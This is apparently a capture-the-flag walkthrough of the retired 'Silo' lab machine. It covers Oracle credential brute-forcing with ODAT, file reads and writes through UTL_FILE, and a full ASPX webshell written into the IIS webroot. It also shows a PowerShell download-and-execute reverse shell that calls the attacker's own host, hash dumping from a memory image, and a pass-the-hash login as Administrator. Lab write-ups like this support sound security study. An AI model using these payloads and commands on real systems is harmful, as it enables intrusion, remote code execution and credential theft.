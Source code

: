 # Silo

This is the write-up for the box Silo that got retired at the 4th August 2018.
My IP address was 10.10.14.4 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.82    silo.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/silo.nmap 10.10.10.82
```

```markdown
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 8.5
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/8.5
|_http-title: IIS Windows Server
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
1521/tcp  open  oracle-tns   Oracle TNS listener 11.2.0.2.0 (unauthorized)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
49160/tcp open  oracle-tns   Oracle TNS listener (requires service name)
49161/tcp open  msrpc        Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

## Checking HTTP (Port 80)

On the web page there is the default IIS page.
Lets search for hidden directories with **Gobuster**:
```markdown
gobuster -u http://10.10.10.82 dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

It finds nothing.

## Checking Oracle Database (Port 1521)

In order to attack the **Oracle Database** I will use a tool called [ODAT (Oracle Database Attacking Tool)](https://github.com/quentinhardy/odat).
First we need to know the SID of the database:
```markdown
odat sidguesser -s 10.10.10.82 -p 1521
```

This can also be done with the **Metasploit** module _auxiliary/scanner/oracle/sid_brute_.
Both of the tools will find two SIDs:
- XE
- XEXDB

The next thing to get is a password and **ODAT** can try to brute-force this.
It needs a password list which I will take from _/usr/share/metasploit-framework/data/wordlists/oracle_default_userpass.txt_ and modify so that it has a backslash between username and password.
```markdown
odat passwordguesser -s 10.10.10.82 -p 1521 -d XE --accounts-file oracle_default_userpass.txt
```

After it finishes, one valid credential is found: _scott/tiger_.

Connecting to the Oracle database with the found credentials:
```markdown
sqlplus64 scott/tiger@10.10.10.82:1521/XE
```

Enumerating the database:
```markdown
SQL> select * from session_privs
SQL> select * from user_role_privs
```

These commands don't show much but it is possible to login on the database as _sysdba_:
```markdown
sqlplus64 scott/tiger@10.10.10.82:1521/XE as sysdba
```

Now the commands show a lot more information and we can exploit the Oracle database.

### Method 1: Reading files from the file system

With these privileges it is possible to read files from the file system.
```markdown
SQL> set serveroutput ON
```

```markdown
declare
  f utl_file.file_type;
  s varchar(200);
begin
  f := utl_file.fopen('/inetpub/wwwroot', 'iisstart.htm', 'R');
  utl_file.get_line(f,s);
  utl_file.fclose(f);
  dbms_output.put_line(s);
end;
/
```

This shows the contents of the default IIS page and can be done for any file on the file system like the flags.

### Method 2: Writing files to the web server

A way to gain access to the server is by uploading a webshell on the IIS web server and executing commands to gain a reverse shell.
The webshell I upload is an ASPX shell from _/usr/share/webshells/aspx/cmdasp.aspx_.
This script has to be made smaller to under 1000 characters or otherwise it can't be written to the file system:
- Remove _<HEAD>_ tags and contents
- Remove _style_ tags
- Remove comments
- Remove newlines: `sed -z 's/\n//g' cmdasp.aspx`

Now writing it to the file system from the SQL command line:
```markdown
declare
  f utl_file.file_type;
  s varchar(5000) := '<%@ Page Language="C#" Debug="true" Trace="false" %><%@ Import Namespace="System.Diagnostics" %><%@ Import Namespace="System.IO" %><script Language="c#" runat="server">void Page_Load(object sender, EventArgs e){}string ExcuteCmd(string arg){ProcessStartInfo psi = new ProcessStartInfo();psi.FileName = "cmd.exe";psi.Arguments = "/c "+arg;psi.RedirectStandardOutput = true;psi.UseShellExecute = false;Process p = Process.Start(psi);StreamReader stmrdr = p.StandardOutput;string s = stmrdr.ReadToEnd();stmrdr.Close();return s;}void cmdExe_Click(object sender, System.EventArgs e){Response.Write("<pre>");Response.Write(Server.HtmlEncode(ExcuteCmd(txtArg.Text)));Response.Write("</pre>");}</script><HTML><body ><form id="cmd" method="post" runat="server"><asp:TextBox id="txtArg" runat="server" Width="250px"></asp:TextBox><asp:Button id="testing" runat="server" Text="excute" OnClick="cmdExe_Click"></asp:Button><asp:Label id="lblText" runat="server">Command:</asp:Label></form></body></HTML>';
begin
  f := utl_file.fopen('/inetpub/wwwroot', 'shell.aspx', 'W');
  utl_file.put_line(f,s);
  utl_file.fclose(f);
end;
/
```

The webshell can be found on:
```markdown
http://10.10.10.82/shell.aspx
```

It is possible to execute any command so lets start a reverse shell:
```markdown
powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.4/Invoke-PowerShellTcp.ps1')"
```

After executing the reverse shell _Invoke-PowerShellTcp.ps1_ from the **Nishang framework** gets called from my web server and the listener on my IP and port 9001 starts a reverse shell session as _IIS APPPOOL/defaultapppool_.

## Privilege Escalation

In the home directories there is one user _Phineas_ and he has a file called _"Oracle issue.txt"_ in his Desktop directory with the following content:
```markdown
Support vendor engaged to troubleshoot Windows / Oracle performance issue (full memory dump requested):

Dropbox link provided to vendor (and password under separate cover).

Dropbox link
https://www.dropbox.com/sh/69skryzfszb7elq/AADZnQEbbqDoIf5L2d0PBxENa?dl=0

link password:
?%Hm8646uC$
```

When browsing to the Dropbox URL and pasting the given password, it won't work.
The reason is because one of the characters is UTF-8 encoded but our terminal only shows ASCII. This can be bypassed by encoding the contents of the file to Base64 and decode it to UTF-8 instead of ASCII.
```powershell
$content = Get-Content "Oracle issue.txt"

$encoded = [System.Text.Encoding]::UTF8.GetBytes($content)

[System.Convert]::ToBase64String($encoded)
```

Decoding the Base64 string:
```markdown
echo -n 'U3VwcG9ydCB2ZW5kb3IgZW5nYWdlZCB0byB0cm91Ymxlc2hvb3QgV2luZG93cyAvIE9yYWNsZSBwZXJmb3JtYW5jZSBpc3N1ZSAoZnVsbCBtZW1vcnkgZHVtcCByZXF1ZXN0ZWQpOiAgRHJvcGJveCBsaW5rIHByb3ZpZGVkIHRvIHZlbmRvciAoYW5kIHBhc3N3b3JkIHVuZGVyIHNlcGFyYXRlIGNvdmVyKS4gIERyb3Bib3ggbGluayAgaHR0cHM6Ly93d3cuZHJvcGJveC5jb20vc2gvNjlza3J5emZzemI3ZWxxL0FBRFpuUUViYnFEb0lmNUwyZDBQQnhFTmE/ZGw9MCAgbGluayBwYXNzd29yZDogwqMlSG04NjQ2dUMk' | base64 -d
```

Now it shows the real password that can be used for Dropbox:
> £%Hm8646uC$

The file to download is a ZIP archive and the content is one file called _SILO-20180105-221806.dmp_.
Using the `file` command to analyze it:
```markdown
SILO-20180105-221806.dmp: MS Windows 64bit crash dump, full dump, 261996 pages
```

This Windows crash dump can be analyzed with different tools and I will use **Volatility**.
Lets collect some information about the image and dump the hashes:
```markdown
volatility -f SILO-20180105-221806.dmp imageinfo

volatility -f SILO-20180105-221806.dmp Win2012R2x64 pstree

volatility -f SILO-20180105-221806.dmp Win2012R2x64 hashdump
```

Dumped hashes:
```markdown
Administrator:500:aad3b435b51404eeaad3b435b51404ee:9e730375b7cbcebf74ae46481e07b0c7:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Phineas:1002:aad3b435b51404eeaad3b435b51404ee:8eacdd67b77749e65d3b3d5c110b0969:::
```

With the hash of the _Administrator_ we can do a **Pass-The-Hash** attack to authenticate on the box:
```markdown
pth-winexe -U Administrator%aad3b435b51404eeaad3b435b51404ee:9e730375b7cbcebf74ae46481e07b0c7 //10.10.10.82 cmd
```

After successfully passing the hash to the box, it starts a shell session as _Administrator_!
